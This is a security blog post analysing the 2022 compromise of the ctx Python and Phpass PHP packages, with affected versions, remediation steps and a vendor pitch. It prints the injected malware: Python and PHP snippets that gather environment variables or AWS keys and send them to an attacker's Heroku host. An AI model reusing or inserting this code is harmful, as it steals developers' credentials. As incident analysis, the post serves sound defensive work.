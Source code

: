 ```yaml
---
title: "How two Python and PHP dependencies, ctx and Phpass, became malware that stole secrets and credentials"
description: A security expert's analysis of the malicious code added to ctx and Phpass, Python and PHP dependencies, that turned them into malware by sending environment variables and credentials to a third party attacker.
slug: ctx-and-phpass-package-malware
date: 2022-05-25T01:37
keywords: [dependencies, ctx, phpass]
tags: [malware, dependencies]
authors: [chris, free, gabe]
---
```


<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

# Popular packages, `ctx` and `Phpass`, compromised

In this post we'll be reviewing the malicious code that was introduced to both `ctx` and `phpass`.

<a href="https://twitter.com/s0md3v/status/1529005758540808192" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/ctx-Twitter-Screenshot.png" alt="Screenshot of ctx Twitter tweet" />
</a>

<!--truncate-->

_Tweet from @s0md3v notifying the developer community about `ctx`._

## Malicious Code in `ctx`

After 7 years, the Python package `ctx` on PyPi received a version update.
A malicious version of `ctx` was published under `0.2.2` as an update to the previous `0.1.2`.

The following code was added to the package:

```python
def __init__(self):
    self.sendRequest()

    # code that performs dict access
    # please DO NOT RUN THIS CODE !

     def sendRequest(self):
        string = ""
        for _, value in environ.items():
            string += value+" "

        message_bytes = string.encode('ascii')
        base64_bytes = base64.b64encode(message_bytes)
        base64_message = base64_bytes.decode('ascii')

        response = requests.get("https://anti-theft-web.herokuapp.com/hacked/"+base64_message)
```

### Malware Code Overview

This code does the following:

1. Reads all Environment variables (potentially containing sensitive values like credentials for AWS or the database),
2. Converts the values into `base64` encoding to allow for transport via HTTP,
3. Finally, it sends an HTTP request with the leaked environment variables to the attacker's Heroku App.

## `Phpass` contains similar malware

The PHP library on Composer `Phpass` was also updated with identical malicious code around the same time.

<a href="https://twitter.com/s0md3v/status/1529010306466615296" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/Phpass-Twitter-Screenshot.png" alt="Screenshot of Phpass Twitter tweet" />
</a>

_Tweet from @s0md3v notifying the developer community about `Phpass`._

This malicious code that was added to this package was:

```php
$access = getenv('AWS_ACCESS_KEY');
$secret = getenv('AWS_SECRET_KEY');
$xml = file_get_contents('http://anti-theft-web.herokuapp.com/hacked/$access/$secret');
```
*From the [Sonatype blog post](https://blog.sonatype.com/pypi-package-ctx-compromised-are-you-at-risk)*

### Most Phpass Users Unaffected

Luckily, the [PHP package](https://packagist.org/packages/hautelook/phpass) derived from the affected repository 
[hautelook/phpass](https://github.com/hautelook/phpass) 
had not received many downloads in the past months. Instead, the [package](https://packagist.org/packages/bordoni/phpass)
for the forked repository [bordoni/phpass](https://github.com/bordoni/phpass) was started to primarily be used by developers well
before the malicious code was published.

The below graphs show the download count of the packages from Packagist (the PHP Package registry powering Composer):

![monthly downloads of the hautelook/phpass library](/img/packagist-hautelook-phpass-downloads.png)

*Monthly downloads of `hautelook/phpass` (malicious version)*

![monthly downloads of the bordoni/phpass library](/img/packagist-bordoni-phpass-downloads.png)

*Monthly downloads of `bordoni/phpass` (safe fork)*

## Remediation Steps

The libraries have all been taken down now. The simplest way to verify that you're safe is to update to the latest
package versions.

If updating isn't an option, you may also verify that you're not using any of the following package versions.

### Affected Package Versions
- `ctx` versions `0.2.2` and `0.2.6` (Python)
- `Phpass` versions are unknown (PHP)
  - It's unlikely more than a few dozen users are affected due to the [small download count](https://web.archive.org/web/20220519155745/https://packagist.org/packages/hautelook/phpass/stats)
  - If you have more information, please tell us on [Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-19wb6qg8w-OC1ktWO2LkG8lL3fpLD3AA) or [GitHub](https://github.com/lunasec-io/lunasec).

## External References

- Archived version of `ctx` [package versions on Pypi](https://archive.ph/xTUEN).

- [Initial post](https://old.reddit.com/r/Python/comments/uumqmm/ctx_new_version_released_after_7_years_750k) observing the package had been updated.

- [Reddit post](https://old.reddit.com/r/Python/comments/uwhzkj/i_think_the_ctx_package_on_pypi_has_been_hacked/) with details about the malicious changes to ctx.

- [Sonatype blog post](https://blog.sonatype.com/pypi-package-ctx-compromised-are-you-at-risk) with details about timeline.

- [Post by SANS ISC InfoSec Forums](https://isc.sans.edu/forums/diary/ctx+Python+Library+Updated+with+Extra+Features/28678/)

## For a limited time, claim an expert security review

Though perhaps unconventional, our team of Security Engineers has been working with startups to audit their dependencies 
and help them manage their security roadmap.

Why? It's simple: By working with us, we also learn about the common problems that companies face while shipping 
software. Helping you enables us to make our Open Source software better.

To get started, please email us at [deps@lunasec.io](mailto:deps@lunasec.io) or 
[schedule a 15-minute call](https://cal.com/lunasec/15min) with one of our engineers.

### Who are we?

If you've heard of [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/) or 
[Spring4Shell](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities), then you're familiar with our work already!
We're the security experts that gave those vulnerabilities their name by providing clear, concise advice and 
[building tools to resolve them](https://github.com/lunasec-io/lunasec).

Since then, we've interviewed hundreds of companies to help us build 
[LunaTrace](https://github.com/marketplace/lunatrace-by-lunasec).

What is LunaTrace? It's our Open Source security platform that automatically discovers vulnerabilities in your 
dependencies and gives you expert security guides with remediation steps and automated patches.

Whether you're a developer or a security professional, we'd love to hear from you! Drop us a line by 
[joining our Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-19wb6qg8w-OC1ktWO2LkG8lL3fpLD3AA) or 
trying out LunaTrace on your [GitHub repo for free](https://github.com/marketplace/lunatrace-by-lunasec).


## Updates

1. Original post on 2022-05-24 @ 5pm PDT
2. Added more details about the packages on 2022-05-25 @ 1:30am UTC
